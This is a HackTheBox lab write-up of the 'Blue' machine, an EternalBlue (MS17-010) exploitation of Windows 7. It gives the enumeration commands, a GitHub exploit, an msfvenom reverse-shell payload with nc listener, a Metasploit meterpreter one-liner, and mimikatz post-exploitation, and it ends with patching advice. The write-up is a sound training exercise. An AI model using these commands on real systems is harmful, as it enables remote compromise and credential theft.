 ```yaml
---
title: Blue Writeup
date: 2021-12-29
categories: [Writeup, HackTheBox]
tags: hackthebox OSCP WriteUp Windows Windows7 eternalblue MS17-010 TJNULLsList
image:
  src: /assets/Images-02-Blue/Blue-infocard.png
  width: 697   # in pixels
  height: 517   # in pixels
  alt: image alternative text
---
```


### Enumeration
#### rustscan
```bash
rustscan --accessible -a 10.129.179.6 -- -Pn -p-
```
![](/assets/Images-02-Blue/2021-12-29-20-24-16.png)
_rustscan results_

#### nmap
```bash
nmap -T4 -Pn -A -p 135,139,445,49152,49153,49154,49155,49156,49157 10.129.179.6
```
![](/assets/Images-02-Blue/2021-12-29-20-30-32.png)
_nmap results_

```bash
nmap -Pn -A --script=smb-vuln* -p 139,445 10.129.179.6 | tee nmap-vulns.log
```
![](/assets/Images-02-Blue/2021-12-29-20-40-51.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows 7 Professional 7601 Service Pack 1
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient
```bash
smbclient -q -NL 10.129.179.6 # Shares List

smbclient -N \\\\10.129.179.6\\Users # readable
```
- `smbclient` gave a list of shares. Only share `Users` is readable. None of them are writeable.
- Admin shares are not accessible.
![](/assets/Images-02-Blue/2021-12-29-20-50-01.png)
_smbclient enumeration_

---

### Exploitation
#### MS17-010
For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.179.6
```

> From this repository `checker.py` script uses null authentication to check vulnerability. Directly running it will fail the check in this case. 'guest' authentication is used in nmap / smbclient and shares were accessible.

After changing username on line 14 of `checker.py` it will give named pipes and confirm target is vulnerable to eternalblue.

![](/assets/Images-02-Blue/2021-12-29-21-41-46.png)
_checker.py update and check_

Update username on line 37 of `send_and_execute.py` so exploit can work.

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```
![](/assets/Images-02-Blue/2021-12-29-22-06-46.png)
_updating send-and-execute.py and msfvenom_

And run the exploit after setting up ncat listener.

```bash
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.179.6 eternalblue.exe
```
**And finally we get a shell with highest privileges.**
![](/assets/Images-02-Blue/2021-12-29-22-14-52.png)
_system shell_

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```bash
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.179.6; run;"
```
![](/assets/Images-02-Blue/2021-12-29-23-06-14.png)
_meterpreter shell_

---

### Post Exploitation
This system was compromised with highest privilege.
Transferred and executed `mimikatz`.
No hashes were saved in system.

![](/assets/Images-02-Blue/2021-12-29-22-58-41.png)
_hashdump attempt / mimikatz_

---

### Recommendation

SMB was enabled on outdated un-supported Windows 7 and SMB message signing was disabled. 

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

SMB service was using `guest` authentication. 
We modified vulnerability scanner and exploit with `guest` as credentials to work.

---